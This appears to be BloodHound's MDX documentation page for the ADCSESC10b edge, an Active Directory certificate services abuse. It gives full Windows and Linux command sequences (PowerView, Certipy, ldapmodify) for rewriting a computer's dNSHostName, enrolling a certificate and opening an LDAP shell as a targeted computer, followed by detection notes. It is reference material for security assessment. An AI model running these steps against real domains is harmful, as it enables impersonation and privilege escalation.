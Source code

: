 ```yaml
---
title: ADCSESC10b
description: "The principal has control over a victim computer with permission to enroll on one or more certificate templates, configured to enable certificate authentication, and require the `dNSHostName` of the enrollee included in the Subject Alternative Name (SAN)."
---
```



<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


The victim computer also has enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. There is an affected Domain Controller (DC) configured to allow UPN certificate mapping. This setup lets the principal impersonate any AD forest computer without their credentials.

The attacker principal can abuse their control over the victim computer to modify the victim computer's `dNSHostName` attribute to match the `dNSHostName` of a targeted computer. The attacker principal will then abuse their control over the victim computer to obtain the credentials of the victim computer, or a session as the victim computer, and enroll a certificate as the victim in one of the affected certificate templates. The `dNSHostName` of the victim will be included in the issued certificate under SAN DNS name. The UPN certificate mapping configuration on the affected DCs make it possible to authenticate over Schannel as the targeted computer. The DC will split the SAN DNS name into a computer name and a domain name, confirm that the domain name is correct, and use the computer name appended a $ to identify a computer with matching `sAMAccountName` which the attacker will be authenticated as.

## Abuse Info

### Windows

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Set SPN of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 2: Create .exe version of Certipy.

Install PyInstaller on a host with python installed, clone down Certipy from GitHub, and run this cmdlet from the root of the GitHub repo to bundle the python project into an .exe binary which can be used on Windows computer where Python is not installed:

```bash
pyinstaller ./Certipy.spec
```

The Certipy.exe will be in the _dist_ folder.

Step 3: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set `dNSHostName` of the victim principal using Certipy:

```bash
Certipy.exe account update -u ATTACKER@CORP.LOCAL -p PWD -user VICTIM$ -dns TARGET.CORP.LOCAL
```

Step 4: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 5.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using PowerView:

```bash
Get-DomainObject -Identity VICTIM -Properties mail
```
If the victim has the mail attribute set, continue to Step 5.

If the victim does not has the mail attribute set, set it to a dummy mail using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'mail'='dummy@mail.com'}
```
Step 5: Obtain a session as victim.  There are several options for this step.

You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/resources/edges/generic-all) documentation).

Step 6: Enroll certificate as victim.

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
Certipy.exe req -u VICTIM$ -p PWD -ca CA-NAME -target CA-SERVER -template TEMPLATE
```

The issued certificate will be saved to disk with the name of the targeted user.

Step 7 (Optional): Set `dNSHostName` and SPN of victim to the previous value.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to it's previous values using Certipy and PowerView:

```bash
Certipy.exe account update -u ATTACKER@CORP.LOCAL -p PWD -user VICTIM$ -dns VICTIM.CORP.LOCAL
```
```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 8: Perform Schannel authentication as targeted principal against affected DC using certificate.

Open an LDAP shell as the victim using Certipy by specifying the certificate created in Step 6 and the IP of an affected DC:

```bash
Certipy.exe auth -pfx TARGET.pfx -dc-ip IP -ldap-shell
```
**Linux**

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Remove SPN entries with ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\ndelete: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set `dNSHostName` of the victim principal using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM$ -dns TARGET.CORP.LOCAL
```

Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using ldapsearch:

```bash
ldapsearch -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME -b "VICTIM-DN" mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nreplace: mail\nmail: test@mail.com" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 4: Obtain a session as victim.  There are several options for this step.

You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/resources/edges/generic-all) documentation).

Step 5: Enroll certificate as victim.

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
certipy req -u VICTIM@CORP.LOCAL -p PWD -ca CA-NAME -target CA-SERVER -template TEMPLATE
```

The issued certificate will be saved to disk with the name of the targeted user.

Step 6 (Optional): Set `dNSHostName` and SPN of victim to the previous value.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to it's previous value using Certipy and ldapmodify:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns VICTIM.CORP.LOCAL
```
```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nadd: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 7: Perform Schannel authentication as targeted principal against affected DC using certificate.

Open an LDAP shell as the victim using Certipy by specifying the certificate created in Step 5 and the IP of an affected DC:

```bash
certipy auth -pfx TARGET.pfx -dc-ip IP -ldap-shell
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [https://attack.mitre.org/techniques/T1649/](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Ce)
* [Certipy 4.0](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
* [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject)
* [LDAPSearch](https://linux.die.net/man/1/ldapsearch)
* [LDAPModify](https://linux.die.net/man/1/ldapmodify)

